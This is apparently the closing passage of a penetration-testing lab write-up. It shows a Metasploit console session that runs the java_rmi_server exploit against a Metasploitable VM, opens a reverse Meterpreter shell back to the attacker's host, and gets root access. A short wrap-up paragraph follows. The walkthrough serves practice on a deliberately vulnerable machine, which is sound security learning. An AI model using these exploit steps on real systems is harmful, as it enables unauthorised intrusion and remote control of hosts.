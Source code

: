 ```
Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf exploit(multi/misc/java_rmi_server) > set lhost 172.16.243.144
lhost => 172.16.243.144
msf exploit(multi/misc/java_rmi_server) > run

[*] Started reverse TCP handler on 172.16.243.144:4444
[*] 172.16.243.143:1099 - Using URL: http://0.0.0.0:8080/t3sFon2Uy6K
[*] 172.16.243.143:1099 - Local IP: http://172.16.243.144:8080/t3sFon2Uy6K
[*] 172.16.243.143:1099 - Server started.
[*] 172.16.243.143:1099 - Sending RMI Header...
[*] 172.16.243.143:1099 - Sending RMI Call...
[*] 172.16.243.143:1099 - Replied to request for payload JAR
[*] Sending stage (53837 bytes) to 172.16.243.143
[*] Meterpreter session 9 opened (172.16.243.144:4444 -> 172.16.243.143:48518) at 2018-03-25 21:30:34 -0400
[-] 172.16.243.143:1099 - Exploit failed: RuntimeError Timeout HTTPDELAY expired and the HTTP Server didn't get a payload request
[*] 172.16.243.143:1099 - Server stopped.
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/java_rmi_server) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > id
[-] Unknown command: id.
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer    : metasploitable
OS          : Linux 2.6.24-16-server (i386)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
```

## Wrapping Up

At this point, I wrapped up for my afternoon of exploitation. I had made by way through most of the service exploitations, though I really hadn't tackled the web server exploitation. Perhaps I attack that in a future article.
